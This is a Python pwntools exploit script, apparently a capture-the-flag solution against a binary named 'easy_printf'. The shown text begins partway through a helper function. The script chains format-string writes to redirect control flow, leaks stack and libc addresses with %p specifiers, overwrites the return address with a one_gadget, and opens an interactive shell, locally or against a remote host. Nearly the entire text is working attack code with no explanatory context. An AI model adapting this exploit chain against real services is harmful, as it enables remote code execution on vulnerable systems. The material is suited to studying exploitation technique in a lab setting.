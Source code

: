 ```python
		address += p64(addr+cnt)
		cnt+=1
	return payload + address


def main(host,port=12001):
	if host:
		p = remote(host,port)
	else:
		# p = process("./easy_printf",env={"LD_PRELOAD":"./libc.so"})
		p = process("./easy_printf")
		gdb.attach(p,"b *0x000000000400846")
	p.recvuntil("write down your name")
	# t = raw_input('guess: ')
	t = 0x7
	stdout_fileno = (int(t) << 12) | 0x690
	p.send("A"*0x10+p16(stdout_fileno))
	pause()
	
	buf_addr = 0x601060
	payload =  "%{}c%28$hhn%{}c%58$hn".format(2,0x2a6).ljust(0x18,'_')
	payload += fmtstr(9,buf_addr,p64(0x000000000400814)[:3],0x2ab)
	p.send(payload)
	pause()
	
	
	payload =  "%{}c%23$hhn%35$p-%36$p^%37$p-%38$p-%39$p*%40$p-".format(0x14)
	p.send(payload)
	pause()
	p.recvuntil("^")
	stack = int(p.recvuntil('-',drop=True),16)
	p.recvuntil("*")
	libc.address = int(p.recvuntil('-',drop=True),16)-0x20837
	info("stack : " + hex(stack))
	info("libc : " + hex(libc.address))
	onegadget = 0xf1147+libc.address
	
	ret_addr = stack - 0x1e8
	payload =  "%{}c%23$hhn".format(0x14).ljust(0x10,'_')
	payload += fmtstr(15,ret_addr,p64(onegadget)[:2],0x19)
	p.send(payload)
	pause()
	# :0000000000400865                 retn
	offset = 13
	payload =  "%{}c%16$hhn%{}c%17$hn".format(ord(p64(onegadget)[2:3]),0x865-ord(p64(onegadget)[2:3])).ljust(0x18,'_')
	payload += p64(ret_addr+2)+p64(ret_addr-8)
	payload = payload.ljust(0x80,"\x00")
	p.send(payload)
	p.interactive()
if __name__ == "__main__":
	libc = ELF("./libc.so",checksec=False)
	main(args['REMOTE'])
```
